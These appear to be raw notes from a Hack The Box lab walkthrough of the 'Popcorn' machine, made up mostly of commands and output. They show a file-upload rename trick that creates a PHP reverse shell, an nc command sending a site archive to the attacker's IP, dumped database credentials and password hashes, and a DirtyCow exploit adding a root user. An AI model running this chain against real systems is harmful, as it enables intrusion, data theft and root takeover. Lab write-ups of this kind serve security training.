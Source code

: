 22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

![](2021-02-12-16-37-48.png)

everything after /test.php is phpinfo

Hostname:Port 	popcorn.hackthebox.gr:80 

sudo bash -c 'echo "10.10.10.6 popcorn.hackthebox.gr" >> /etc/hosts'

![](2021-02-12-16-48-34.png)

![](2021-02-12-16-48-47.png)

create account and log in
![](2021-02-12-16-51-37.png)


wget https://cdimage.debian.org/debian-cd/current/amd64/bt-cd/debian-10.8.0-amd64-netinst.iso.torrent


![](2021-02-12-17-04-19.png)
![](2021-02-12-17-17-59.png)

![](2021-02-12-17-19-15.png)

http://10.10.10.6/torrent/thumbnail.php?gd=2&src=./upload/4090c3c2a394a49974dfbbf2ce7ad0db3cdeddd7.gif&maxw=96


popcorn.hackthebox.gr/rename/?filename=./upload/4090c3c2a394a49974dfbbf2ce7ad0db3cdeddd7.gif&newfilename=./upload/rev.php


Warning: rename(./upload/4090c3c2a394a49974dfbbf2ce7ad0db3cdeddd7.gif,./upload/rev.php) [function.rename]: No such file or directory in /var/www/rename/index.php on line 4


![](2021-02-12-17-22-00.png)

GET /rename/?filename=/var/www/torrent/upload/4090c3c2a394a49974dfbbf2ce7ad0db3cdeddd7.gif&newfilename=/var/www/torrent/upload/rev.php HTTP/1.1

![](2021-02-12-17-22-32.png)


nc 10.10.14.9 4444 < torrenthoster.zip

Admin username: admin; password : admin12</span></font></p>


//Edit This For TORRENT HOSTER Database                                                                                                                     
  //database configuration                                                                                                                                    
  $CFG->host = "localhost";                                                                                                                                   
  $CFG->dbName = "torrenthoster";       //db name                                                                                                             
  $CFG->dbUserName = "torrent";    //db username                                                                                                              
  $CFG->dbPassword = "SuperSecret!!";   //db password                                                                                                         
                                                        
mysql> select * from users;
+----+----------+----------------------------------+-----------+-------------------------+---------------------+---------------------+
| id | userName | password                         | privilege | email                   | joined              | lastconnect         |
+----+----------+----------------------------------+-----------+-------------------------+---------------------+---------------------+
|  3 | Admin    | d5bfedcee289e5e05b86daad8ee3e2e2 | admin     | admin@yourdomain.com    | 2007-01-06 21:12:46 | 2007-01-06 21:12:46 | 
|  5 | marios   | fa6ac41f0ec717d1283e1a73e91fca5f | user      | jarjoramarios@gmail.com | 2021-02-12 13:46:57 | 2021-02-12 13:46:57 | 
|  6 | hacker   | d6a6bc0db10694a2d90e3a69648f3a03 | user      | hacker@hacker.com       | 2021-02-12 17:53:53 | 2021-02-12 17:53:53 | 
+----+----------+----------------------------------+-----------+-------------------------+---------------------+---------------------+
3 rows in set (0.00 sec)


![](2021-02-12-17-46-43.png)

/var/www/torrent/database/th_database.sql

"Ubuntu 9.10

![](2021-02-12-18-17-48.png)


gcc cowroot.c -o cowroot -pthread



gcc -pthread dirty.c -o dirty -lcrypt


www-data@popcorn:/dev/shm$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: b7844000


id
^C
www-data@popcorn:/dev/shm$ su - firefart
Password: 
firefart@popcorn:~# id
uid=0(firefart) gid=0(root) groups=0(root)
